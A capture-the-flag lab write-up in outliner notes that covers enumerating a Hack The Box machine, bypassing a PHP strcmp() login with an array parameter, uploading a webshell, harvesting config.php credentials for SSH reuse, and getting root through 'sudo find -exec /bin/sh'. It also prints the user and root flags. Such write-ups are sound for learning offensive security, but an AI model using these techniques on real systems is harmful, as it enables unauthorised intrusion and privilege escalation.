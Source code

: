 public:: true
tags:: password reuse, code review, sudo

- Open ports
	- TCP
		- ```
		  22/tcp
		  80/tcp
		  ```
- Generate the webroot tree
	- via `burp`
		- ```
		  # Show only folders
		  /
		  ├── assets
		  ├── forms
		  ├── icons
		  └── login
		  ```
		  Not that useful after all
	- via `gobuster`
		- id:: 65549612-54e8-4546-94bb-09b5b63ee0fd
		  ```bash
		  gobuster dir -w /usr/share/dirb/wordlists/big.txt -t 4 -u "http://10.129.31.0"
		  ===============================================================
		  Starting gobuster in directory enumeration mode
		  ===============================================================
		  /.htaccess            (Status: 403) [Size: 276]
		  /.htpasswd            (Status: 403) [Size: 276]
		  /_uploaded            (Status: 301) [Size: 314] [--> http://10.129.31.0/_uploaded/]
		  /assets               (Status: 301) [Size: 311] [--> http://10.129.31.0/assets/]
		  /forms                (Status: 301) [Size: 310] [--> http://10.129.31.0/forms/]
		  /login                (Status: 301) [Size: 310] [--> http://10.129.31.0/login/]
		  /server-status        (Status: 403) [Size: 276]
		  Progress: 20469 / 20470 (100.00%)
		  ```
		  `http://10.129.31.0/_uploaded/` is good finding, it will become useful later.
- OpenSSH version is `OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)`
	- At first look I thought I may have been vulnerable to user enumeration ([CVE-2018-15473](https://nvd.nist.gov/vuln/detail/CVE-2018-15473)). But giving a better look at the [Ubuntu SA](https://ubuntu.com/security/CVE-2018-15473) it's clear it is not.
- The web-server allows directory listing and `http://10.129.31.0/login/` shows a file named `login.php.swp`.
  This allow us to give a look at the source code of a portion of `login.php`
	- The login form seems to use a weak `strcmp()` condition for the password field.
		- ```php
		          if (strcmp($password, $_POST['password']) == 0) {
		      if (strcmp($username, $_POST['username']) == 0) {
		      require('config.php');
		  if (!empty($_POST['username']) && !empty($_POST['password'])) {
		  ```
		- A quick google search for `strcmp php exploit` returns many [blog posts](https://www.doyler.net/security-not-included/bypassing-php-strcmp-abctf2016) explaining how this function is poorly implemented in php.
		- If I set `$_POST[‘password’]` equal to an empty array, then `strcmp()` would return a NULL. Due to some inherent weaknesses in PHP’s comparisons, `NULL == 0` will return `true`. More info [here](http://www.dimuthu.org/blog/2008/10/31/triple-equal-operator-and-null-in-php/).
		- With `burp` we can intercept the login request and change the `password` field into an empty array
		  ```
		  http://10.129.31.0/login/login.php?username=admin&password[]=%22%22
		  ```
		  This grant us access to the admin panel, which in turn has an upload for where we can upload a webshell. We know where the it got uploaded thanks to [`gobuster`](logseq://graph/HTB-Notes?block-id=65549612-54e8-4546-94bb-09b5b63ee0fd).
- Now that we successfully bypassed the authentication and uploaded our webshell, we can start hunting for loots.
	- Lets retrieve valid usernames
	  ```bash
	  > id
	  uid=33(www-data) gid=33(www-data) groups=33(www-data)
	  > ls /home
	  john
	  ```
	- Search for interesting readable files
	  ```bash
	  > cat config.php
	  <?php
	  $username = "admin";
	  $password = "thisisagoodpassword";
	  [...]
	  ```
	- We can access SSH with the user `john` and the found password thanks to password reusing.
		- **User flag** at `/home/john/user.txt`
			- f54846c258f3b4612f78a819573d158e
			  background-color:: green
		- Lets check if `john` can run some commands as `root` via `sudo`
		  ```bash
		  john@base:~$ sudo -l
		  [sudo] password for john:
		  Matching Defaults entries for john on base:
		      env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
		  
		  User john may run the following commands on base:
		      (root : root) /usr/bin/find
		  ```
		  We can run `find` as the user `root`.
		- ### Privesc
			- Lets make `find` drop a shell for us
			  ```bash
			  john@base:~$ sudo find . -name .bashrc -exec /bin/sh \;
			  # id
			  uid=0(root) gid=0(root) groups=0(root)
			  ```
			- **Root flag** at `/root/root.txt`
				- 51709519ea18ab37dd6fc58096bea949
				  background-color:: green